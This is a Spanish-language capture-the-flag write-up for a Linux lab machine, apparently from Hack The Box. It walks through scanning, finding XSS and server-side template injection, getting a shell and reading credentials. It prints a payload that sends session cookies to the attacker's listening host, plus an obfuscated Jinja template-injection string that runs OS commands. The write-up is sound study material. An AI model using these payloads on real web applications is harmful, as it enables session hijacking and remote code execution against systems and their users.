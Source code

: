 #Linux #medium #tecnicas 
### Ping
```python
ping -c 1 10.10.11.12
PING 10.10.11.12 (10.10.11.12) 56(84) bytes of data.
64 bytes from 10.10.11.12: icmp_seq=1 ttl=63 time=71.4 ms

--- 10.10.11.12 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 71.439/71.439/71.439/0.000 ms
```

### TTL 63 = Linux

### nmap
```python
sudo nmap -p- --open -sC -sV --min-rate 5000 -Pn 10.10.11.12 -oN Scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-08 22:36 EDT
Nmap scan report for 10.10.11.12
Host is up (0.071s latency).
Not shown: 65506 closed tcp ports (reset), 27 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.78 seconds
```

### Enumeración del puerto 80 (http)

![[Pasted image 20240408224546.png]]

![[Pasted image 20240408224608.png]]

### Fuzzing con ffuz
el dominio `/quote` no esta en los directorios de la pagina asi que vamos a investigar  
![[Pasted image 20240408224309.png]]

`quote`
![[Pasted image 20240408224935.png]]

### BurpSuite
vamos a realizar una petición y la interceptamos con burpsuite
![[Pasted image 20240408225150.png]]

`Service`
tenemos 3 service que se estan enviando al servidor. vamos a intentar validarlos enviando una petición a un servidor que tendremos a la escucha
```python
<img+src='http://10.10.14.27/test.png'>
```
![[Pasted image 20240408231842.png]]

### Python3 server
obtenemos la petición que hemos realizado por lo cual podemos decir que esta web es vulnerable a `XSS`
![[Pasted image 20240408232124.png]]

### Cookie
vamos a usar este payload para capturar la cookie de session. 
```python
<img src=x onerror=this.src='http://10.10.14.27/?c='+document.cookie> # URLencode
```
![[Pasted image 20240408234641.png]]

`cookie`
![[Pasted image 20240408234800.png]]

agregamos la cookie en el `cookie-editor`
![[cookie.png]]

### dashboad

![[Pasted image 20240408235954.png]]

`Generate Invoice`
![[Pasted image 20240408235845.png]]

`codigo ID 0255314324`
obtenemos un ID Invoice 
![[Pasted image 20240408235903.png]]

`Generator QR`
ingresamos el ID que hemos obtenido anteriormente
![[Pasted image 20240409000254.png]]

### SSTI (Server-Side Template Injection)
realizamos una prueba y es posible ver el resultado dentro del nombre de archivo generado para el código QR. Eso confirma que se está produciendo SSTI
![[Pasted image 20240409001851.png]]

`Burpsuite`
interceptamos la petición con burpsuite y podemos confirmar que se esta ejecutando correctamente el resultado de {{7 * 7}} a partir de aqui solo necesitamos conseguir hacer Bypass para poder ejecutar codigo
![[Pasted image 20240409002315.png]]

### Bypass SSTI 
usando estos parametros podemos hacer un bypass del servicio que esta corriendo por detras el cual hemos logrado ejecutar con éxito el comando id usaremos esto para ejecutar una reverse shell
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
![[Pasted image 20240409003615.png]]

### reverse shell
usamos una reverse shell u la URL encodeamos 
![[Pasted image 20240409004321.png]]

### Netcat 
estaremos a la escucha con Netcat por el puerto que hemos especificado y obtenemos la shell
![[Pasted image 20240409004434.png]]

`www-data`

![[Pasted image 20240409011025.png]]
### database
podemos ver las credenciales de usuario
![[Pasted image 20240409005450.png]]

### mysql
podemos listar la base de datos
![[Pasted image 20240409010111.png]]

`mysql`
listando la tabla de usuarios podemos listar credenciales en texto plano
![[Pasted image 20240409010333.png]]

### Crackstation
tenemos la contraseña de consuela
![[Pasted image 20240409010748.png]]

### ssh
tenemos conexión via ssh
![[Pasted image 20240409010946.png]]

### Escalada de privilegios
con un poco de pensamiento lateral podemos leer la root sin escalar privilegios
![[Pasted image 20240409011222.png]]

con este comando vamos a agregar el archivo `root.txt` como un attachment al archivo pdf que ya existe en la maquina y luego lo descargamos para analizarlo en local
![[Pasted image 20240409011943.png]]

### pdf
![[Pasted image 20240409014202.png]]